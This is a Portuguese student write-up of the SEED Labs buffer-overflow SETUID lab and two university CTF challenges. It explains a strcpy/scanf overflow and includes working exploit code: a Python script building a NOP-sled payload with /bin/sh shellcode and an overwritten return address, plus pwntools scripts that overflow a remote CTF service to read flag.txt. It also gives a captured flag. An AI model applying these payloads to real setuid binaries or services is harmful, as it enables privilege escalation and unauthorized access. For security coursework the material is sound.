





# SeedLabs: Buffer Overflow SETUID
## Task 1

Ambos os binários são executados como pretendido, abrindo uma shell.



## Task 2

Após analisar o ficheiro source.c, verificamos que existe uma falha por parte da função `strcpy()` que, dada a falta de verificação do tamanho da string recebida, permite transbordar a escrita de informação, servindo assim como entrada para o exploit.



## Task 3

No ínicio do processo de investigação, foi necessário recolher informação que será utilizada na execução do exploit, como a distância entre o endereço inicial do buffer e a posição onde é guardado o endereço de retorno.

Assim, recorrendo aos comandos demonstrados na imagem seguinte, foi possível descobrir a informação referida acima.



Durante este processo, foi elaborado um esboço da stack para esta parte específica do programa, de modo a percebermos melhor o seu funcionamento.

- `buffer`: zona de memória alocada pelo programa
- `ebp`: endereço base da stack frame
- `eip`: endereço de retorno da função, que será alterado pelo atacante de modo a controlar o fluxo do código
- `NOPs`: operação que não faz nada, permitindo o fluxo de execução do programa
- `shellcode`: código injetado pelo atacante (nós) através de Buffer Overflow



Depois de termos toda a informação que necessitamos, utilizamos o seguinte script para completarmos a tarefa:

```py
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

NOP = b'\x90'

offset = 112
padding = NOP * offset
# eip_address = 0xffffcb5c
return_address = b'\xdc\xcb\xff\xff' # eip_address + 128

payload = padding + return_address + shellcode.rjust(256, NOP)

with open("badfile", "wb") as file:
   file.write(payload)
```

O endereço de retorno foi escolhido de modo a apontar para o meio das instruções NOP, permitindo alguma margem de erro devido a mudanças na memória na execução do programa.


---

# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 4003/4000

## Desafio 1

### Análise do Executável

Nesta fase pretendemos identificar informação valiosa que conseguimos obter sobre o executável, sendo a pesquisa realizada localmente.

Usando o comando `checksec --file=./program`, obtemos o seguinte output:

```
[*] '/home/seed/ctf/week5/desafio1/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Após analisar o mesmo, é possível concluir que a arquitetura do executável é `x86` (Arch), `não possui` o mecanismo de proteção `canary` (Stack), a stack `tem permisssão de execução` (NX), as `posições do binário não estão randomizadas` (PIE) e , por fim, `existem` regiões de memória com `permissões de leitura, escrita e execução` (RWX), neste caso referindo-se à stack.

### Análise do Código Fonte

Analisando o código fonte, conseguimos perceber que o programa abre e imprime o conteúdo de um ficheiro cujo nome é guardado numa posição de memória consecutiva ao array que guarda o input do utilizador, que, convenientemente, não possui qualquer mecanismo de proteção na escrita dos mesmos, devido à implementação do `scanf`.

Deste modo, o exploit deste desafio passa pelo facto de qualquer conteúdo que ultrapasse a zona de memória do array que armazena o input do utilizador, será escrito no array que contém o nome do ficheiro a abrir.

Logo, é possível controlar o ficheiro aberto escrevendo, neste caso em concreto, `20` carateres (não interessa o seu conteúdo) e de seguida o nome do ficheiro que pretendemos abrir.

Após estabelecermos uma comunicação com o servidor e enviarmos, por exemplo, a string `aaaaaaaaaaaaaaaaaaaaflag.txt`, o ficheiro `falg.txt` é aberto com sucesso, imprimindo a flag `flag{6df4f167a6ba4b80991be83c5b052542}`.

```py
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline('A'*20 + 'flag.txt')
r.interactive()
```

## Desafio 2

Foi empregada a mesma metodologia do primeiro desafio, com a diferença de que tivemos de nos certificar que o valor na posição de memória imediatamente a seguir ao buffer fosse `0xfefc2122`. Assim, codificamos o seguinte ficheiro para automatizar a execução do exploit.

```py 
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b'A'*20 + b'\x22\x21\xfc\xfe' + b'flag.txt')
r.interactive()
```
